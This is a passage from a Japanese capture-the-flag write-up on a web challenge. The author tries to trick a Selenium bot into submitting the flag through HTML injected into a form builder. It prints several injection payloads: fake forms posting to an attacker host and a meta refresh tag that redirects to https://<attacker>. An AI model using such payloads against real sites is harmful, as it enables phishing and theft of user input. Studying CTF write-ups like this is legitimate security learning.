 ```html:form_builder.html
            return;
        }
        if (fields) {
            location.search = `?fields=${fields},${new_field}`;
        } else {
            location.search = `?fields=${new_field}`;
        }
        // location.reload();
    }
</script>
<SNIP>
```

setHTMLによってDOM操作が行われているため、通常のXSSはできなそう。  
最初に思いついたのは、botがSeleniumで動作しているため、以下のダミー要素で騙す方法。

- actionを変更したform要素
- form内に、id=titleのinput要素
- form内に、type=submitのinput要素

```text
fields=<form action=https://<attacker>><input type=text name=title id=title><input type=submit value=Submit>
```

しかし、attackerサイトにアクセスさせることはできたが、input要素にFLAGを入力させることはできなかった。  
heightを変えてみたり、br要素を入れてみたりしたが、FLAG入力先の要素を変更することはできなかった。  
Seleniumならできるのではと少し期待していた。

- ダメだったパターン1

```text
fields=<form action=https://<attacker>><input style='height:90vh' type=text name=title id=title><input type=submit value=Submit>
```

- ダメだったパターン2

```text
fields=<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,<br>,</div></div><form><input type=text name=title id=title><input type=submit value=Submit></form>
```

仕方ないので一日寝かして思いついたのが、meta refreshでそもそもの入力画面を移動させる方法。

```html
<meta http-equiv='refresh' content='0;URL=https://<attacker>/'>
```

